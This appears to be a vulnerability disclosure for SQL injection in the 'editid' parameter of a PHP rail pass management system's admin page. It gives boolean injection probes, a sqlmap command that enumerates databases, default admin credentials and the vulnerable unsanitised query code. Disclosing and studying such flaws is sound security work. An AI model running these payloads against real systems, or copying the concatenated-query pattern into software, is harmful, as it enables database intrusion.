 # [Rail Pass Management System-SQL Injection-edit-category-detail.php]

## Basic Information

**[Bug Reporter]:** DiliLearngent

**[Application Vendors]:** `https://phpgurukul.com/rail-pass-management-system-using-php-and-mysql/`

**[Test Environment]:** windows10+apache+php5.6+mysql5.5

**[Install]:**

1. Download the zip file

2. Extract the file and copy `rpms` folder

3. Paste inside root directory(for xampp xampp/htdocs, for wamp wamp/www, for lamp var/www/HTML)

4. Open PHPMyAdmin (http://localhost/phpmyadmin)

5. Create a database with the name `rpmsdb`

6. Import `rpmsdb.sql` file(given inside the zip package in the SQL file folder)

7. Run the script `http://localhost/rpms`

**Credential for Admin panel :**

**Username:** admin
**Password:** Test@123

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://localhost/rpms/admin/edit-category-detail.php?editid=13`    

**[Vulnerability Location]:** rpms/admin/edit-category-detail.php

**[Vulnerability Test]:**

1. When you enter `13%20and%201=1` in the `editid` parameter, the page displays as follows:

   ![](../../img/20230427155036.png)

   

2. When you enter `13%20and%201=2` in the `editid` parameter, the page displays as follows:

   ![](../../img/20230427155212.png)

3. Testing with sqlmap

   ```
   python sqlmap.py -u "http://localhost/rpms/admin/edit-category-detail.php?editid=13" --cookie="PHPSESSID=4acbjc61q1opnkih7qmkd6g9t7" --dbs --batch
   ```

   ![](../../img/20230427162644.png)

**[code analysis]:**

rpms/admin/edit-category-detail.php

```php
<?php
$eid=$_GET['editid'];
$sql="SELECT * from  tblcategory where ID=$eid";
$query = $dbh -> prepare($sql);
$query->execute();
$results=$query->fetchAll(PDO::FETCH_OBJ);
$cnt=1;
if($query->rowCount() > 0)
{
foreach($results as $row)
{               ?>
```

The GET parameter `editid` is obtained without any filtering and spliced directly into the sql execution statement, and then a different page response exists depending on the result of the execution.